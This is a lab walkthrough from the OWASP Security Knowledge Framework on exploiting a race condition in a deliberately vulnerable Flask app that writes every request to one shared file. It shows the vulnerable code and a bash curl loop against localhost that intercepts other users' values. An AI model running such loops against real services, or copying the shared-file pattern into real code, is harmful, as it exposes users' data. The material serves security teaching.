






# Race Condition File-Write

## Running the app on Docker

```
$ sudo docker pull blabla1337/owasp-skf-lab:racecondition-file-write
```

```
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:racecondition-file-write
```


Now that the app is running let's go hacking!


## Reconnaissance

#### Step1

We can download a file from the server by doing a GET request to the server.



Let's try:



Once we download the file we can see whatever we add to the URL is being written in a file called shared-file.



#### Step 2

As the application suggests, there is a Race condition vulnerability in this app, let's try to find it.

If we look at the code we see that the application gets the query parameter, writes to a file called shared-file.txt, then opens the file and send it back as a response.

```python
@app.route("/<string:value>", methods=['GET'])
def home(value):
    # Create a Python file object using open() and the with statement
    with open("shared-file.txt", 'w') as f:
        f.write(value)
        f.closed
        f.closed
    file = open("shared-file.txt", "r")
    response = make_response(send_file("shared-file.txt", attachment_filename="shared-file.txt"))
    response.headers.set("Content-Type", "text/html; charset=utf-8")
    response.headers.set("Content-Disposition", "attachment; filename=shared-file.txt")
    return response
```

#### Step 3

How can we exploit this?

We have a very small window between the writing of the file:

```python
with open("shared-file.txt", 'w') as f:
        f.write(value)
        f.closed
        f.closed
```

and the response:

```python
 file = open("shared-file.txt", "r")
    response = make_response(send_file("shared-file.txt", attachment_filename="shared-file.txt"))
    response.headers.set("Content-Type", "text/html; charset=utf-8")
    response.headers.set("Content-Disposition", "attachment; filename=shared-file.txt")
    return response
```

Maybe if we have multiple users on this application at the same time we might be able to intercept someone else's query.

## Exploitation

In order to do that we must send requests with high frequency.

Doing it manually is practically impossible, so we create a script that does that for us:

```sh

#!/bin/bash

while true; do

	curl -i -s -k  -X $'GET' -H $'Host: localhost:5000' $'http://localhost:5000/111' | grep "111"

done

```

and in the meantime we will send a couple requests from Burp:



If we look in the logs we will see:





## Additional sources

https://wiki.owasp.org/index.php/Testing_for_Race_Conditions_(OWASP-AT-010)
